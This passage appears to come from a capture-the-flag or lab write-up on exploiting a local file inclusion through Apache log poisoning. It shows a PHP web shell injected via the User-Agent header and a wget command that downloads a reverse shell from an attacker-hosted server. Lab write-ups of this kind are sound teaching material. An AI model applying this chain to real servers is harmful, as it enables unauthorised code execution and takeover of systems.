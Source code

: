 Using `/var/log/apache2/access.log`, we can download a reverse shell into the server and execute it, we need to host the file in a python server, then use:

```
?page=/var/log/apache2/access.log&cmd=wget 10.14.21.28:8000/rev.php -O /home/files/rev.php
```

Before this, let's test the `rce`, we need to use this:

```php
<?php system($_GET['cmd']); ?>
```

On the `User-Agent`, then, send the request twice so we can see the `rce`:

![Pasted image 20250519203456.png](../../IMAGES/Pasted%20image%2020250519203456.png)

As seen, we got `rce`, let's do the command from before then:

![Pasted image 20250519203554.png](../../IMAGES/Pasted%20image%2020250519203554.png)
